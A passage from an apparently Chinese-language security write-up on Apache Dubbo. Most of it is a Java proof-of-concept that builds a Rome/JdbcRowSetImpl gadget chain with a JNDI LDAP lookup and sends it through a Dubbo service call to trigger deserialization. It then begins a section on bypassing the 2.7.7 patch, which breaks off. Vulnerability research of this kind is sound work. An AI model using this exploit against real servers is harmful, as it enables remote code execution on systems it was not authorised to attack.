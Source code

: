 > ```

```java
package org.apache.dubbo.springboot.demo.consumer;

import java.lang.reflect.Field;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.util.HashMap;

import org.apache.dubbo.config.annotation.Reference;
import org.apache.dubbo.springboot.demo.DemoService;
import org.springframework.boot.CommandLineRunner;
import org.springframework.stereotype.Component;

@Component
public class Task implements CommandLineRunner {
    @Reference
    private DemoService demo;

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    @Override
    public void run(String... args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:8099/aaa");

        ToStringBean bean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        EqualsBean fakeBean = new EqualsBean(String.class, "p4d0rn");  // 传入无害的String.class
        HashMap map = new HashMap();
        map.put(fakeBean, 1);  // 注意put的时候也会执行hash
        setFieldValue(fakeBean, "obj", bean);

        String result = demo.sayHello(map);
    }
}
```

过程就不分析了，和上面一样，后半段就是`Hessian`和`Rome`的了。

### Patch ByPass

#### 2.7.7

`2.7.7`在`org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation#decode`中增加了如下判断
